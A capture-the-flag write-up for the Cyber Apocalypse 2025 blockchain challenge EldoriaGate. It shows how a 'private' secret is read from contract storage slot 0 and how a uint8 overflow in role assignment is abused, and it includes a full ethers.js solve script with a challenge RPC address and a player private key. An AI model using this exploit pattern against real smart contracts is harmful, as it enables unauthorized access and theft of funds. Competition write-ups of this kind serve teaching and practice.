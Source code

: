 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2025 | EldoriaGate Writeup
desc: Check out our writeup for EldoriaGate for Cyber Apocalypse 2025 capture the flag competition.
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2025
parent: cyber_apocalypse_2025
category: blockchain
challenge: EldoriaGate
tags: "blockchain, starry, ethers"
date: 2025-03-29T00:00:00+00:00
last_modified_at: 2025-03-29T00:00:00+00:00
---
```



> Solved by Starry-Lord


    contract EldoriaGateKernel {
        bytes4 private eldoriaSecret;
        ...
    }

First I thought we needed to Bruteforce the secret, but then I realized the value was getting stored on-chain, and as we all know, on-chain storage is public [**😉**](https://emojipedia.org/winking-face), so we could just extract it from the creation of the contract’s transaction.

Since it’s the first declared variable, it is stored at slot 0 on the EldorianGateKernel contract address.

With that we managed to authenticate, but we still needed to become the “Usurper” which is basically not receiving any role, but the contract assigned the ROLE_SERF by default:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
                ...
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                ...
        }

But we can break it by passing the contribution value 255, which is an 8-bit value. The key here is that shifting left an 8-bit value by 256 brings us back to 0, thus allowing us to not get a default role:


    function evaluateIdentity(address _unknown, uint8 _contribution) external onlyFrontend returns (uint id, uint8 roles) {
            assembly {
                mstore(0x00, _unknown)
                mstore(0x20, villagers.slot)
                let villagerSlot := keccak256(0x00, 0x40)
                mstore(0x00, _unknown)
                id := keccak256(0x00, 0x20)
                sstore(villagerSlot, id)
                let storedPacked := sload(add(villagerSlot, 1))
                let storedAuth := and(storedPacked, 0xff)
                if iszero(storedAuth) { revert(0, 0) }
                let defaultRolesMask := ROLE_SERF
                roles := add(defaultRolesMask, _contribution)
                if lt(roles, defaultRolesMask) { revert(0, 0) }
                let packed := or(storedAuth, shl(8, roles))
                sstore(add(villagerSlot, 1), packed)
        }
    }

solve.js with ethers.js v5:


    const { ethers } = require("ethers");
    
    const RPC_URL = "http://94.237.58.78:50156";
    const provider = new ethers.providers.JsonRpcProvider(RPC_URL);
    
    // CONFIGURATION
    const TARGET_ADDRESS = "0x89B1908C814588a24269cD14409ba6b4B15a709B"; // EldoriaGate
    const PLAYER_PRIVATE_KEY = "0x63ddf21f62799265b687cd70c91065c94b75aa8b9aab40d2f122c14dc0513c32";
    
    // CONTRACT ABIs
    const EldoriaGateABI = [
      "function enter(bytes4 passphrase) external payable",
      "function kernel() public view returns (address)"
    ];
    
    // Setup
    const player = new ethers.Wallet(PLAYER_PRIVATE_KEY, provider);
    const gate = new ethers.Contract(TARGET_ADDRESS, EldoriaGateABI, player);
    
    async function main() {
      console.log("[*] Getting EldoriaGateKernel address...");
      const kernelAddress = await gate.kernel();
      console.log("[+] Kernel address:", kernelAddress);
    
      console.log("[*] Reading storage slot 0 from kernel...");
      const rawSlot = await provider.getStorageAt(kernelAddress, 0);
      console.log("[+] Raw slot 0 data:", rawSlot);
    
      // Extract last 4 bytes (right-aligned)
      const guess = "0x" + rawSlot.slice(66 - 8);
      console.log("[+] Interpreted eldoriaSecret:", guess);
    
      console.log("[*] Attempting to call enter() with secret...");
    
      try {
        const tx = await gate.enter(guess, { value: 255 });
        await tx.wait();
        console.log(`\n🎉 [SUCCESS] Authentication passed with secret: ${guess}`);
      } catch (err) {
        const reason = err?.error?.message || err?.reason || "Unknown error";
        console.log(`\n[x] enter(${guess}) failed: ${reason}`);
      }
    }
    
    main().catch(console.error);
    


![](https://i.imgur.com/7P2f4OD.png)


